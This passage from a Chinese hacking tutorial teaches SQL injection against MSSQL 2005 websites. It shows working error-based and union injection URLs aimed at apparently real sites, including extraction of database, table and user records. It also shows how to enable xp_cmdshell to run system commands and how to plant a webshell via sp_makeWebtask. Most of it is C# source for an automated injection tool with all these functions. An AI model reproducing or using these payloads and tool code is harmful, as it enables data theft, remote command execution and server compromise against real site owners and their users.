http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(name) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [sq_ajaxcn].[sys].[syscolumns] where id='37575172')>0--
```

返回结果如图 28 所示，说明 aspnet_Users 表中有 7 个字段。


图 28 aspnet_Users 表中有 7 个字段

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bcast([name] as nvarchar(4000))%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top 1 name from [sq_ajaxcn].[sys].[syscolumns] where id='37575172' order by 1) t order by 1 desc)>0--
```

返回结果如图 29 所示，说明 aspnet_Users 表中有一个 ApplicationId 字段，我们遍历 top 1 到 top 7 就可以得到所有的字段名了。最后得到所有字段值（ApplicationId, IsAnonymous, LastActivityDate, LoweredUserName, MobileAlias, UserName, UserId）。


图 29 aspnet_Users 表中有一个 ApplicationId 字段

###### 猜解记录内容

得到了数据库、数据表、表中的字段，接下来就是最关键的猜解表中的数据了。

得到 database_name 数据库中 table_name 表中记录的个数：

```sql
and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [database_name]..[table_name])>0---
```

猜解 table_name 表中 username、password 字段的记录内容，变换 top N 中的 N 查询记录内容：

```sql
and (select Top 1 cast([username] as nvarchar(max))%2bchar(124)%2bcast([password] as nvarchar(max)) from (select top 1 [username],[password] from [database_name]..[table_name] Where 1=1 Order by 1) T Order by 1 Desc)>0---
```

我们猜解 sq_ajaxcn 数据库中的 aspnet_Users 表的 UserId 和 ApplicationId 字段的内容：

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957%27%20and%20(select%20char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*)%20as%20nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94)%20from%20[sq_ajaxcn]..[aspnet_Users])%3E0---
```

返回结果如图 30 所示，说明 aspnet_Users 表中存在 1420 条记录。


图 30 aspnet_Users 表中存在 1420 条记录

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and (select Top 1 cast([ApplicationId] as nvarchar(max))%2bchar(124)%2bcast([UserId] as nvarchar(max)) from (select top 1 [ApplicationId],[UserId] from [sq_ajaxcn]..[aspnet_Users] Where 1=1 Order by 1) T Order by 1 Desc)>0---
```

返回结果如图 31 所示，得到 Credit_Operator_log 表中第一条记录 UserId 和 ApplicationId 字段内容：


图 31 Credit_Operator_log 表中第一条记录 UserId 和 ApplicationId 字段内容

ApplicationId 字段内容为“D7B502AA-20F2-4B35-9554-63D4F52D0723”和“0E8D0D77-1C21-4EA1-9F67-E9FCA2FA58B2”。遍历 top 1 到 top 1420 就可以得到 aspnet_Users 表所有的值了。

## 2.2 union 联合查询注入攻击

### 2.2.1 union 获取基本信息

前面我们在讲解 MSSQL2000 的注入方式时，已经介绍了匹配字段数的方法。对于获取基本信息来说，MSSQL2005 和 MSSQL2000 是完全一样的。

http://www.xxx.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159 存在字符型注入点，字段数为 14，显示返回信息的位置是第 5 个字段：

```sql
http://www.xxx.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159' and 1=2 union all select 1,2,3,4,@@version,6,7,8,9,10,11,12,13,14--
```

返回结果如图 32 所示。

```sql
http://www.el20.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159' and 1=2 union all select 1,2,3,4,db_name(),6,7,8,9,10,11,12,13,14--
```

返回结果如图 33 所示，得到数据库名称 ynykDB。

```sql
http://www.xxx.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159' and 1=2 union all select 1,2,3,4,user,6,7,8,9,10,11,12,13,14--
```

返回结果如图 34 所示，得到数据库用户 dbo。

```sql
http://www.xxx.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159' and 1=2 union all select 1,2,3,4,host_name(),6,7,8,9,10,11,12,13,14--
```

返回结果如图 35 所示，得到当前连接的客户端名称 RSER-413E2CB160。

```sql
http://www.xxx.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159' and 1=2 union all select 1,2,3,4,@@servername,6,7,8,9,10,11,12,13,14--
```

返回结果如图 36 所示，得到数据库服务器名称 RSER-413E2CB160。说明 Web 服务器和数据库服务器是同一台机器。

### 2.2.2 union 查询得到执行命令回显

我们以 xp_cmdshell 执行系统命令为例，看一下如何利用 union 查询得到执行命令回显结果。前面我们介绍了错误提示下用到的语句，现在来分析 union 查询下是如何实现的。我们通过下面一个例子看如何构造 URL 来利用 union 查询得到执行命令的结果。http://01.xxx.com/news.aspx?nid=34 存在注入漏洞，sa 权限并且满足 union 查询条件，匹配的字段数为 4，显示内容字段位置为 2 和 3。例如我们提交：

```sql
http://01.xxx.com/news.aspx?nid=34 and 1=2 union select 1,user,@@version,4--
```

返回用户和版本信息，返回结果如图 37 所示。

开启 MSSQL2005 下的 xp_cmdshell 存储过程：

```sql
http://01.xxx.com/news.aspx?nid=34;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--
```

返回结果如图 38 所示。建立一个数据表 poopoopoo，保存 xp_cmdshell 执行命令返回的结果，通过 insert into 把执行命令的结果插入到数据表 poopoopoo 中：

```sql
http://01.xxx.com/news.aspx?nid=34;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null);insert into [poopoopoo](resulttxt) exec master..xp_cmdshell 'net start'--
```

返回结果如图 39 所示。查询 poopoopoo 表中执行命令返回结果的非空行记录数：

```sql
http://01.xxx.com/news.aspx?nid=34 and 1=2 union select 1,user,cast(count(*) as nvarchar(100)),4 from [poopoopoo] where resulttxt is not null--
```

返回结果如图 40 所示，说明 poopoopoo 表中有 45 条数据，也就是通过 xp_cmdshell 执行 net start 命令的回显结果为 45 行。

查询出 poopoopoo 表中的第一条记录。执行 net start 返回的一行用户信息，遍历 top 1 到 top 45 就可以得到所有返回内容：

```sql
http://01.xxx.com/news.aspx?nid=34 and 1=2 union select 1,user,(select top 1 resulttxt from (select top 1 resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc),4--

http://01.xxx.com/news.aspx?nid=34 and 1=2 union select 1,user,(select top 1 resulttxt from (select top 2 resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc),4--

http://01.xxx.com/news.aspx?nid=34 and 1=2 union select 1,user,(select top 1 resulttxt from (select top 3 resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc),4--
```

查询出执行 net start 命令返回的前三行内容，返回结果如图 41 所示。

## 通过 C# 黑客注入编程

## MSSQL2005 注入工具代码实现

为了更好地实现程序功能，把重点放在代码实现上，这里我已经设计好了程序的主界面，我们只需在相应的地方添加功能代码即可。实例 1（详细代码参见光盘）是我已经设计好的程序，大家只需在这个基础上添加功能代码实现相应功能即可，省去了设计程序界面的麻烦。最后界面如图 42 所示。

## 3.1 MSSQL2005 注入工具_错误提示版

##### 3.1.1 获取基本信息

我们前面介绍 MSSQL2000 时提到了 SQL SERVER 有很多内置变量，我们可以利用这些内置变量来获取数据库服务器的一些基本信息，包括当前连接的用户、当前数据库名、服务器名等。在错误提示开启的情况下，我们可以根据返回的信息得到数据。

在 MSSQL2005 中同样可以构造需要的 URL，然后根据错误提示的信息直接取得我们需要的数据。

例如，我们想得到当前 SQL SERVER 的版本，构造 `http://www.xxx.com/zpy/Index.aspx?SchoolName=ncu&Btype=Zhiy&Stype=190&Ttype=193 and @@version>0--`，返回结果如图 43 所示。

图 43 当前 SQL SERVER 的版本

需要的版本信息包含在返回信息的“值”和“转换为数据类型为 int”两个字符串之间。我们在程序功能中只要通过字符串操作，取出两个字符串之间的值就是需要的版本信息。在 MSSQL2000 中定义一个函数 `getErrorContent(string m_HttpUrl,string firstString,string EndString)`，这个函数的作用就是访问 m_HttpUrl 指定的 URL 地址，返回 firstString 和 EndString 之间的 HTML 代码。

但是有的时候我们想要得到的信息并不是包含在字符串“值”和字符串“转换为数据类型为”之间，例如英文系统会返回英文信息。我们变换一种方式，在返回的错误信息中人为添加两个特殊字符串，把信息放到这两个字符串之间，这样我们直接读取这两个字符串之间的内容就可以了。

例如我们要查询当前用户信息，以前我们可以这样提交：

```sql
http://www.xxx.com/zpy/Index.aspx?SchoolName=ncu&Btype=Zhiy&Stype=190&Ttype=193 and user>0--
```

现在我们把 user 放在两个特殊字符串之间提交：

```sql
http://www.xxx.com/zpy/Index.aspx?SchoolName=ncu&Btype=Zhiy&Stype=190&Ttype=193 and char(94)%2bchar(94)%2bchar(94)%2buser%2bchar(94)%2bchar(94)%2bchar(94)>0--
```

其中 char(94) 是字符“^”，“%2B”是“+”，在 SQL SERVER 中是连接符，返回结果如图 44 所示。

图 44 真正的用户信息

这样我们返回的信息“^^^jobxxxnew^^^”，而真正的用户信息被包含在了两个“^^^”特殊字符串之间。这样我们只要读取出两个“^^^”之间的内容，就是我们获得的信息了。

# 精通 C# 黑客注入编程

```csharp
/* 然后我们定义一个函数 getInformation()，这个函数实现下面的功能：
   首先根据我们需要猜解的信息列表构造一个 foreach 循环，
   然后在每次循环中依次猜解出一项信息内容 */
private void getInformation()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string myQueryUrl = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25";
            break;
    }

    foreach (ListViewItem itemTmp in listView_information.CheckedItems) // 根据选中的需要猜解的基本信息项构造 foreach 循环
    {
        switch (itemTmp.Text.Trim())
        {
            case "version": // 得到数据库版本信息
                myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2b@@version%2bchar(94)%2bchar(94)%2bchar(94)>0---";
                string my_version = getErrorContent(myQueryUrl, "^^^", "^^^");
                itemTmp.SubItems[1].Text = my_version;
                break;

            case "user": // 得到数据库当前用户信息
                myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2buser%2bchar(94)%2bchar(94)%2bchar(94)>0---";
                string my_user = getErrorContent(myQueryUrl, "^^^", "^^^");
                itemTmp.SubItems[1].Text = my_user;
                break;

            case "system_user": // 得到数据库系统用户信息
                myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2bsystem_user%2bchar(94)%2bchar(94)%2bchar(94)>0---";
                string my_system_user = getErrorContent(myQueryUrl, "^^^", "^^^");
                itemTmp.SubItems[1].Text = my_system_user;
                break;

            case "host_name": // 得到数据库当前连接客户端信息
                myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2bhost_name()%2bchar(94)%2bchar(94)%2bchar(94)>0---";
                string my_host_name = getErrorContent(myQueryUrl, "^^^", "^^^");
                itemTmp.SubItems[1].Text = my_host_name;
                break;

            case "servername": // 得到数据库服务端信息
                myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2b@@servername%2bchar(94)%2bchar(94)%2bchar(94)>0---";
                string my_servername = getErrorContent(myQueryUrl, "^^^", "^^^");
                itemTmp.SubItems[1].Text = my_servername;
                break;
        }
    }
}
```

```csharp
case "db_name":  // 得到当前数据库名
    myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2bdb_name()%2bchar(94)%2bchar(94)%2bchar(94)>0--";
    string my_db_name = getErrorContent(myQueryUrl, "^^^", "^^^");
    itemTmp.SubItems[1].Text = my_db_name;
    comboBox_dbName.Text = my_db_name;
    break;

case "privilege":  // 得到当前用户权限
    myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2bcast(is_srvrolemember('sysadmin') as varchar(100))%2bchar(94)%2bchar(94)%2bchar(94)>0--";
    string my_privilege = getErrorContent(myQueryUrl, "^^^", "^^^");
    if (my_privilege == "1")
    {
        itemTmp.SubItems[1].Text = "sysadmin";
        break;
    }
    else
    {
        myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2bcast(is_member('db_owner') as varchar(100))%2bchar(94)%2bchar(94)%2bchar(94)>0--";
        my_privilege = getErrorContent(myQueryUrl, "^^^", "^^^");
        if (my_privilege == "1")
        {
            itemTmp.SubItems[1].Text = "db_owner";
            break;
        }
        else
        {
            itemTmp.SubItems[1].Text = "public";
        }
    }
    break;

case "databases":  // 得到系统所有可用数据库名
    myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(name) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [master]..[sysdatabases])>0--";

    // 这里我们猜解可用数据库个数
    string databaseNum = getErrorContent(myQueryUrl, "^^^", "^^^");
    for (int i = 1; i <= Int32.Parse(databaseNum); i++)
    {
        string myQueryDb = my_checkUrl + " and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bcast([name] as varchar(200))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [master].[dbo].[sysdatabases] where dbid in (select top " + i + " dbid from [master]..[sysdatabases] order by dbid desc))>0--";

        string my_database = getErrorContent(myQueryDb, "^^^", "^^^");
        comboBox_dbName.Items.Add(my_database);
        itemTmp.SubItems[1].Text = itemTmp.SubItems[1].Text + my_database + "  ";
    }
    break;
```

```csharp
}
MessageBox.Show("基本信息获取完毕");
```

然后我们双击“获取信息”按钮，编辑函数代码，异步调用 `getInformation()` 函数代码，具体代码如下：

```csharp
private void toolStripButton_getInfo_Click(object sender, EventArgs e)
{
    DelegateToGuessInformation delHTStartGuess = new DelegateToGuessInformation(getInformation);
    // getInformation() 不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetInformation);
    // EndGetInformation() 异步调用返回后自动执行的代码
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}

// （详细代码参见光盘实例2源程序）
```

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。选择好注入点的注入类型，然后在下面的列表框中选中需要猜解的基本信息，单击“获取信息”按钮，返回结果如图45、图46所示。


图45 获取到的系统信息


图46 获取到的系统信息

##### 3.1.2 获取数据

我们前面介绍 MSSQL2005 猜解数据的时候发现，MSSQL2005 和 MSSQL2000 猜解数据的 SQL 语句是有不同的，这就是为什么以前好多注入工具，如啊D、NBSI、明小子等遇到 MSSQL2005 的数据库时无法使用的原因。现在我们来实现 MSSQL2005 注入工具的猜解功能。我们在猜解数据表前要先选择好要猜解的数据库名。我们在前面的获取基本信息功能中已经实现了获取所有可用数据库的功能。MSSQL2005 中数据表的相关信息保存在 `all_objects` 系统表中，通过遍历 `all_objects` 系统表的 `name` 字段猜解数据表，代码如下：

```csharp
/* 首先我们定义一个函数 get_table()，实现遍历某个指定数据库中 all_objects 系统表的 name 字段猜解全部数据表的功能 */
private void get_table()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string databaseName = comboBox_dbName.Text.Trim(); // 取得当前选中要猜解数据库的名字

    if (databaseName == "")
    {
        MessageBox.Show("没有指定数据库名");
        return;
    }

    string myQueryUrl = "";
    listView_getTables.Items.Clear(); // 清空数据表中的内容
    switch (injection_Type) // 根据不同的注入点类型构造不同的 url
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [" + databaseName + "].[sys].[all_objects] where type%3Dchar(85)))>0--";
    string tableNum = getErrorContent(myQueryUrl, "^^^", "^^^");

    for (int i = 1; i <= Int32.Parse(tableNum); i++)
    {
        myQueryUrl = my_checkUrl + "and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bcast([name] as varchar(200))%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top " + i + " [name] from [" + databaseName + "].[sys].[all_objects] where type%3Dchar(85) order by [name]) t order by [name] desc)>0--";
        string tableName = getErrorContent(myQueryUrl, "^^^", "^^^");
        listView_getTables.Items.Add(tableName);
    }

    MessageBox.Show("表名猜解完毕");
}
```

然后我们双击“获取表名”按钮，编辑函数代码异步调用 `get_table()` 函数代码，具体代码如下：

```csharp
private void toolStripButton_getTables_Click(object sender, EventArgs e)
{
    DelegateToGetTable delHTStartGuess = new DelegateToGetTable(get_table);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetTable);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```


图47 猜解数据库 WebPlat50 的用户表

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。选择好注入点类型，第一步单击在基本信息选项页中的“选择数据库”，填好想要猜解的数据库名字，这里为 WebPlat50，然后切换到“获取数据”选项页中，单击“获取表名”按钮，开始猜解数据库 WebPlat50 的用户表，最后返回结果如图47所示。

MSSQL2005 中列名的相关信息保存在 `syscolumns` 系统表中，通过遍历 `syscolumns` 系统表的 `name` 字段猜解列名，代码如下：

```csharp
/* 首先我们定义一个函数 get_Column()，实现遍历某个指定数据库中 syscolumns 系统表的 name 字段猜解全部列名的功能 */
private void get_Column()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string databaseName = comboBox_dbName.Text.Trim(); // 取得当前选中要猜解数据库的名

    if (databaseName == "")
    {
        MessageBox.Show("没有指定数据库名");
        return;
    }

    string myQueryUrl = "";
    listView_getColumns.Items.Clear();
    switch (injection_Type)
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    // 猜解表的对象 id
    myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(id as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [" + databaseName + "]..[sys].[sysobjects] where xtype='u' and name='" + listView_getTables.FocusedItem.Text + "')>0--";
    string tableId = getErrorContent(myQueryUrl, "^^^", "^^^");

    myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(name) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [" + databaseName + "]..[sys].[syscolumns] where id='" + tableId + "')>0--";
    string columnNum = getErrorContent(myQueryUrl, "^^^", "^^^");

    for (int i = 1; i <= Int32.Parse(columnNum); i++)
    {
        myQueryUrl = my_checkUrl + " and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bcast(name as nvarchar(4000))%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top " + i + " name from [" + databaseName + "]..[sys].[syscolumns] where id='" + tableId + "' order by 1) t order by 1 desc)>0--";
        string columnName = getErrorContent(myQueryUrl, "^^^", "^^^");
        listView_getColumns.Items.Add(columnName);
    }

    MessageBox.Show("列名猜解完毕");
}
```

然后我们双击“获取列名”按钮，编辑函数代码异步调用 `get_Column()` 函数代码，具体代码如下：

```csharp
private void toolStripButton_getColumns_Click(object sender, EventArgs e)
{
    DelegateToGetColumn delHTStartGuess = new DelegateToGetColumn(get_Column);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetColumn);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。选择好注入点类型，第一步单击在基本信息选项页中的“选择数据库”，填好想要猜解的数据库名字，这里为 WebPlat50，然后切换到“获取数据”选项页中，单击“获取表名”按钮。开始猜解数据库 WebPlat50 的用户表，猜解完毕然后勾选要猜解的数据表 UserInfo，单击“获取列名”，最后返回结果如图48所示。


获取数据的代码跟上面的过程是类似的，具体实现细节参见光盘实例3的完整代码。

我们用刚才实现的代码看一下完整的过程，例如 `http://www.xxx.net/Information/InfoView.aspx?typeCode=GGTZ&--contentid=31663` 存在字符型注入漏洞，数据库为 MSSQL2005，错误提示开启。运行我们实例3的程序。

- 1. 第一步填好注入地址 `http://www.xxx.net/Information/InfoView.aspx?typeCode=GGTZ&contentid=31663` 和注入类型“字符型”，如图49所示。
- 2. 第二步在“基本信息”里选择好需要猜解的基本信息，这里我们选择所有，单击“获取信息”按钮，如图50所示。
- 3. 第三步在“获取数据”里面单击“获取表名”按钮，得到当前数据库的数据表；选择要猜解的数据表，单击“获取列名”，得到选择数据表的所有列名；选择需要猜解的列名，单击“获取记录”，得到所有数据信息，如图51所示。

##### 3.1.3 执行命令

回顾一下 MSSQL2005 通过 `xp_cmdshell` 执行命令并返回结果的过程：首先开启 `xp_cmdshell`，建立一个数据表，保存 `xp_cmdshell` 执行命令返回的结果；通过 `xp_cmdshell` 执行命令；通过 `insert into` 把返回的结果按行插入到创建的表中；查询表中的内容得到执行命令返回的结果。

我们先实现一个开启 `xp_cmdshell` 存储过程的代码，双击“开启 xp_cmdshell”按钮，编辑函数 `button_openXpcmdshell_Click` 代码，具体代码如下：

```csharp
private void button_openXpcmdshell_Click(object sender, EventArgs e)
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string myQueryUrl = "";
    switch (injection_Type)
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }
    myQueryUrl = my_checkUrl + ";EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--";
    getUrl(myQueryUrl);
}

/* 我们定义一个函数 execCommand，里面包含 4 种执行命令功能的代码，我们可以任意选择用何种方法去执行命令 */
private void execCommand()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string my_execType = comboBox_execType.Text.Trim();
    string myQueryUrl = "";
    richTextBox_cmdResult.Text = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的 url
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    switch (my_execType)
    {
        case "xp_cmdshell":
            // 通过 getUrl 提交构造的 url，这里的 url 是创建一个数据表 poopopopo，把 xp_cmdshell
            // 执行命令的结果插入到数据表 poopopopo 中，然后对表中的内容进行排序
            getUrl(my_checkUrl + "';drop table [poopopopo];create table [poopopopo]([resulttxt] nvarchar(4000) null);insert into [poopopopo]([resulttxt]) exec master..xp_cmdshell '" + comboBox_command.Text.Trim() + "';alter table [poopopopo] add id int not null identity(1,1)--'");

            // 构造 url 查询数据表 poopopopo 中记录的条数，也就是返回结果的行数
            myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopopopo] where resulttxt is not null)>0--";

            string resultNum = getErrorContent(myQueryUrl, "^^^", "^^^");

            // 遍历数据表 poopopopo 表中的数据，得到执行结果
            for (int i = 1; i <= Int32.Parse(resultNum); i++)
            {
                myQueryUrl = my_checkUrl + " and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top " + i + " resulttxt from [poopopopo] where resulttxt is not null order by 1) t order by 1 desc)>0--";
                string resultxt = getErrorContent(myQueryUrl, "^^^", "^^^");
                richTextBox_cmdResult.Text = richTextBox_cmdResult.Text + resultxt.Replace("&nbsp;", " ") + "\r\n";
            }
            MessageBox.Show("执行完毕");
            break;

        case "sp_oacreate":
            MessageBox.Show("执行完毕");
            break;

        case "sandboxmode":
            MessageBox.Show("执行完毕");
            break;
    }
}
```

双击“执行命令”按钮，编辑 `button_run_Click()` 函数代码，实现异步调用 `execCommand()` 函数的功能，具体代码如下：


```csharp
private void button_run_Click(object sender, EventArgs e)
{
    DelegateToExecCommand delHTStartGuess = new DelegateToExecCommand(execCommand);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndexecCommand);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（其他部分详细代码参见光盘实例4源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。第一步选好注入类型，第二步在执行组件后面选择要执行命令的方法（xp_cmdshell、sp_oacreate、SandBoxMode）。

选择 xp_cmdshell，单击“执行命令”按钮，返回结果如图52所示。

选择 `sp_oacreate`，单击“执行命令”按钮，返回结果如图53所示。


选择 `SandBoxMode`，单击“执行命令”按钮，返回结果如图54所示。


##### 3.1.4 获取 WebShell

对于 MSSQL2005，我们介绍在 `sysadmin` 权限下利用 `sp_makeWebtask` 存储过程直接在 Web 目录里写入一句话的 WebShell。

双击“获取 WebShell”按钮，编辑 `button_WebShell_Click()` 函数代码，具体代码如下：

```csharp
private void button_WebShell_Click(object sender, EventArgs e)
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string my_writeType = comboBox_WebShellProc.Text.Trim();
    string myQueryUrl = "";
    switch (injection_Type)
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }
    switch (my_writeType)
    {
        case "sp_makeWebtask":
            myQueryUrl = my_checkUrl + " ;exec sp_makeWebtask '" + comboBox_filePath.Text.Trim() + "',' select '''" + richTextBox_WebShellText.Text.Trim() + "''' '";
            getErrorContent(myQueryUrl, "1", "2");
            break;
    }
}

// （详细代码参见光盘实例5源程序）
```

## 3.2 MSSQL2005 注入工具-union版

为了更好地实现程序功能，把重点放在代码实现上，这里也设计好了程序的主界面，我们只需在相应的地方添加功能代码即可。最后界面如图55所示。

`union` 查询是将返回的查询结果显示在页面上，那么我们需要实现一个函数 `getUnionContent(string m_HttpUrl)`。参数 `m_HttpUrl` 就是构造的一个通过 `union` 查询将返回的查询结果显示在页面上的 URL，然后函数 `getUnionContent()` 会把返回的需要的信息提取出来。根据错误提示开启情况下的方法，在返回的错误信息中人为添加两个特殊字符串，把信息放到这两个字符串之间，读取这两个字符串之间的内容即可。

例如我们可以通过提交  
`http://www.xxx.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159' and 1=2 union all select 1,2,3,4,user,6,7,8,9,10,11,12,13,14--`  
来得到当前连接的用户名，我们可以构造：


图55 控件布局

```text
http://www.xxx.com/Article/mind/mindDetail.aspx?typeid=D21&ID=159' and 1=2 union all select 1,2,3,4,char(94)%2bchar(94)%2bchar(94)%2bcast(user as nvarchar(4000))%2Bchar(94)%2Bchar(94)%2Bchar(94),6,7,8,9,10,11,12,13,14--
```


图56 得到当前连接的用户名

返回结果如图56所示。我们需要的信息被包含在了“^^^”和“^^^”之间，只需通过 `getUnionContent()` 函数读取我们需要的信息。具体代码如下：

```csharp
private string getUnionContent(string m_HttpUrl)
{
    WebClient myWebClient = new WebClient();    // 创建 WebClient 实例
    // 获取或设置用于对向 Internet 资源的请求进行身份验证的网络凭据
    myWebClient.Credentials = CredentialCache.DefaultCredentials;
    byte[] myDataBuffer = myWebClient.DownloadData(m_HttpUrl);
    // log 信息显示访问的 url
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + m_HttpUrl + "\r\n";
    string strWebData = Encoding.Default.GetString(myDataBuffer);

    // 利用正则表达式获取网页字符编码描述信息
    Match charSetMatch = Regex.Match(strWebData, "<meta[^<]*charset=([^<]*)\"",
        RegexOptions.IgnoreCase | RegexOptions.Multiline);
    string WebCharSet = charSetMatch.Groups[1].Value;
    if (WebCharSet != null && WebCharSet != "" && Encoding.GetEncoding(WebCharSet) != Encoding.Default)
        strWebData = Encoding.GetEncoding(WebCharSet).GetString(myDataBuffer);
    else
        strWebData = Encoding.Default.GetString(myDataBuffer);

    int start = strWebData.IndexOf("^^^");
    int end = strWebData.LastIndexOf("^^^");
    if (end >= start)
        strWebData = strWebData.Substring(start + 3, end - start - 3);

    return strWebData;
}
```

##### 3.2.1 获取基本信息

我们以获取版本信息为例，看 `union` 查询下的程序代码如何实现，具体函数代码如下：

```csharp
private void getInformation()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
    string myQueryUrl = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            my_checkUrl = my_checkUrl + " and 1=2 union all select ";
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "' and 1=2 union all select ";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25' and 1=2 union all select ";
            break;
    }

    foreach (ListViewItem itemTmp in listView_information.CheckedItems) // 根据选中的需要猜解的基本信息项构造foreach循环
    {
        switch (itemTmp.Text.Trim())
        {
            // 查询版本信息的模块代码
            case "version":
                myQueryUrl = my_checkUrl;
                // 构造查询url把my_disField字段前的字段都填充null
                for (int i = 1; i < my_disField; i++)
                {
                    myQueryUrl = myQueryUrl + "null,";
                }

                // 构造查询url把my_disField字段替换为要查询的内容
                myQueryUrl = myQueryUrl + "char(94)%2bchar(94)%2bchar(94)%2bcast(@@VERSION as nvarchar(4000))%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94)";

